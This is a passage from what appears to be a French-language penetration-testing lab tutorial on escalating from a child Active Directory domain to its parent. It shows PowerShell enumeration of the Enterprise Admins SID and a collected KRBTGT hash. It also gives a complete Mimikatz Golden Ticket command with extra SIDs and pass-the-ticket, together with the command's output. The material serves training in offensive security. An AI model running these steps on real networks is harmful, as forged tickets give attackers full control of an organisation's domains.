#### Obtention du SID du groupe d'administrateurs d'entreprise à l'aide de Get-DomainGroup

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

```

À ce stade, nous avons rassemblé les points de données suivants :

-   Le hachage KRBTGT pour le domaine enfant :`9d765b482771505cbe97411065964d5f`
-   Le SID du domaine enfant :`S-1-5-21-2806153819-209893948-922872689`
-   Le nom d'un utilisateur cible dans le domaine enfant (n'a pas besoin d'exister pour créer notre Golden Ticket !) : Nous choisirons un faux utilisateur :`hacker`
-   Le FQDN du domaine enfant :`LOGISTICS.INLANEFREIGHT.LOCAL`
-   Le SID du groupe Enterprise Admins du domaine racine :`S-1-5-21-3842939050-3880317879-2865463114-519`

Avant l'attaque, nous pouvons confirmer qu'il n'y a aucun accès au système de fichiers du DC dans le domaine parent.

#### Utiliser ls pour confirmer l'absence d'accès

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

```

En utilisant Mimikatz et les données répertoriées ci-dessus, nous pouvons créer un Golden Ticket pour accéder à toutes les ressources du domaine parent.

#### Créer un Golden Ticket avec Mimikatz

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **
```